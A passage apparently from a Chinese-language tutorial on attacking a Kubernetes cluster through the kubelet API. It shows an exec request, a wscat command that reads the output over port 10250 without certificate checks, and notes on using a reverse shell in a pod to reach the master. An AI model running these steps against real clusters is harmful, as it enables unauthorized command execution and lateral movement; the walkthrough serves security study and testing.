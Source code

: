 ```plain
> X-Stream-Protocol-Version: v2.channel.k8s.io
> X-Stream-Protocol-Version: channel.k8s.io
> 
< HTTP/1.1 302 Found
< Location: /cri/exec/zEKYcaZt                          #查看执行结果
< Date: Wed, 07 Aug 2019 06:01:42 GMT
< Content-Length: 0
< Content-Type: text/plain; charset=utf-8
< 
* Connection #0 to host 192.168.4.68 left intact
[root@localhost ~]#
```

执行如下语句查看命令执行结果

```plain
[root@localhost ~]# docker run -it --rm joshgubler/wscat -c "https://192.168.4.68:10250/cri/exec/zEKYcaZt" --no-check
```

[![](assets/1698893355-c558581c5eba734c4c3521ce28c120d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171431-e7d3cdb6-7316-1.png)  
Step 7：连接K8s Master地址  
此时我们是在Node的Pod里，在反弹的Shell里查看Master的内部IP  
[![](assets/1698893355-6bde7a6d4b7b6266caa7d9221204dbdd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171442-eecdfcfe-7316-1.png)  
尝试连接K8s Master地址
